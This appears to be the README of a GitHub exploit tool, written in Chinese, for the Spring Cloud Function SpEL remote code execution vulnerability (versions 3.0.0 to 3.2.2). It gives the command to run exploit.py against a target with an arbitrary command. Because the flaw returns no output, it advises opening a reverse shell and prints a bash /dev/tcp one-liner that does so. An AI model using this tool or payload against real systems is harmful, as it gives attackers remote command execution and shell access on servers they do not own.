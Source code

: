 # 工具介绍

这两天出现了一个spring的rce 0day。

然后就频频出现有人刷这个Spring Cloud Function SPEL的“假”0day。

在拿到真0day的exp的情况下就抓头看看这个“假”0day。

还是那句话。辣鸡。大佬看着辣眼睛请绕过。

+ *> 漏洞影响的版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

+ *> 因为该漏洞为无回显的漏洞，因此建议命令执行反弹shell。

+ *> Linux反弹shell：bash -i >& /dev/tcp/ip地址/端口 0>&1

# 工具的使用

使用:

```
python exploit.py 目标 "执行的命令"
```

![image-20220331202314645](images/image-20220331202314645.png)

因为这个漏洞是不回显的。所以还是反弹shell的好。

如果执行其他命令也可以成功的，只是不回显。